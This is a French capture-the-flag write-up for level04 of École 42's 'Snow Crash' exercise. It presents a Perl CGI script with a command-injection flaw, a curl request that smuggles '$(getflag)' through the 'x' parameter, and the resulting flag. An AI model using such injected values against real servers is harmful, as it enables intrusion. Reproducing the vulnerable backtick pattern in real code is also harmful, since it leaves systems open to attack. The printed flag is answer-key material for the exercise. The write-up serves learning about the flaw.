 # Level 04 – Snow Crash – École 42

## 🎯 Objectif
Obtenir le flag en exploitant une vulnérabilité présente dans un script Perl exécuté sur un serveur local via CGI.

---

## 📄 Fichier analysé

Le fichier `level04.pl` contient le code suivant :

```perl
#!/usr/bin/perl
use CGI qw{param};
print "Content-type: text/html\n\n";

sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

---

## 🔍 Analyse de la faille

- Le script utilise `param("x")` pour récupérer la valeur d’un paramètre HTTP.
- Cette valeur est injectée **sans filtre** dans une commande shell à l’intérieur de backticks Perl :  
  ```perl
  `echo $y`
  ```
- Cela rend le script vulnérable à une **injection de commande** (Command Injection).

---

## 💥 Exploitation

La machine exécute ce script via un serveur web sur le port `4747`.

En envoyant la requête suivante :

```bash
curl 'localhost:4747/?x=$(getflag)'
```

La commande devient côté serveur :

```bash
echo $(getflag)
```

Ce qui exécute la commande `getflag` et affiche le résultat dans la réponse HTTP.

---

## ✅ Flag obtenu

```
ne2searoevaevoem4ov4ar8ap
```

---

## 🧠 Leçon retenue

> **Ne jamais exécuter directement des entrées utilisateur dans une commande shell**, sans filtrage ni échappement.  
> L'utilisation directe des backticks avec des paramètres CGI rend le script vulnérable à une **Command Injection**.

---

## 📁 Fichiers

- `flag` : contient le flag obtenu
- `ressources/` : contient ce `README.md` + captures/notes éventuelles
